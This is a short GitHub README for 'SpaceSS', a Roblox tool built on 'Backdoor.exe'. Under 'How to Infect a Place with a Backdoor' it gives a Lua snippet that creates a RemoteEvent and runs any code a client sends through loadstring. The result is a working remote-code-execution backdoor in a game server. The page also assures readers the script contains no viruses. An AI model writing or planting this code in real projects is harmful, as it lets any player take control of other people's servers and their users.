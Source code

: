 # SpaceSS

![SpaceSS Logo](https://raw.githubusercontent.com/k4scripts/backdoor.exe/v8/logo_outlined.png)

## Introduction

Welcome to SpaceSS! This project is an open-source endeavor where we've utilized Backdoor.exe from k4scripts. The script is transparent, allowing anyone to inspect it for security concerns. To ensure the safety of our users, our script doesn't contain any viruses. If you encounter any versions of the script claiming to be ours, please verify that it begins with `-- Made by Byzakidd` and ends with `-- forked on GitHub with backdoor.exe`.

## Usage

### How to Infect a Place with a Backdoor

To infect a place with a backdoor, follow these steps:

1. Insert the following code into a RemoteEvent in `game.ReplicatedStorage`:

```lua
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "Backdoor"
backdoor.OnServerEvent:Connect(function(player, SS)
    loadstring(SS)()
end)
